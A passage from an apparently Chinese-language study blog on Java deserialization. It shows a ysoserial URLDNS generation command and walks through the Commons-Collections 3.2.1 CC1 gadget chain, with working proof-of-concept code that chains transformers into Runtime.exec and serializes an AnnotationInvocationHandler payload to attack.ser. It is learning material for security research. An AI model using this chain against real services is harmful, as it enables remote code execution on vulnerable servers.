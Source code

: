 当然序列化数据流也能直接用`java -jar ysoserial.jar URLDNS "http://xxx" > attack.ser`生成；这里有个小坑就是最开始在win下生成，可能是编码问题造成的数据流出错emmm：
![](https://image.silente.top/img/s180.png)

怎么这么像 UTF-16 呢。。。然后在 linux 下什么事也没有。

### CC1

研究环境为 jdk8u_66 < 71

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

CC链1的原理是利用了`TransformerMap`对`Map`类的修饰，从而通过回调执行命令。

P神给出的 example：

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.getRuntime()),
        new InvokerTransformer("exec",
                new Class[] {String.class},
                new Object[] {"calc"}
         )
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map<?, ?> innerMap = new HashMap<>();
Map<String, String> outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
outerMap.put("name", "SilentE");
```

`Transformer`是一个接口，定义了必须实现的`transform`方法；`ConstantTransformer`被用来返回一个对象实例；`InvokerTransformer`被用来执行一个方法：
![](https://image.silente.top/img/s181.png)

`ChainedTransformer`则被用来进行`Transformer`的链式构造，即上一个`Transformer`的结果作为下一个`Transformer`的参数。

`Map<String, String> outerMap = TransformedMap.decorate(innerMap, null, transformerChain)`，就相当于给`innnerMap`添加了一个装饰器，在使用`outerMap`增加元素时会调用挂在上面的`transformerChain`，从而造成命令执行。

在反序列化中，如果有类的`readObject`方法也进行了增添元素类似的操作，那么就能够被我们所利用，`sun.reflect.annotation.AnnotationInvocationHandler`完美符合要求：
![](https://image.silente.top/img/s182.png)

写出序列化执行部分：

```java
public static void doIt(Map outerMap) throws Exception {
    Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    Object obj = constructor.newInstance(Target.class, outerMap);

    ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("attack.ser"));
    oos.writeObject(obj);
    oos.close();

    ObjectInputStream ois = new ObjectInputStream(new FileInputStream("attack.ser"));
    ois.readObject();
}
```
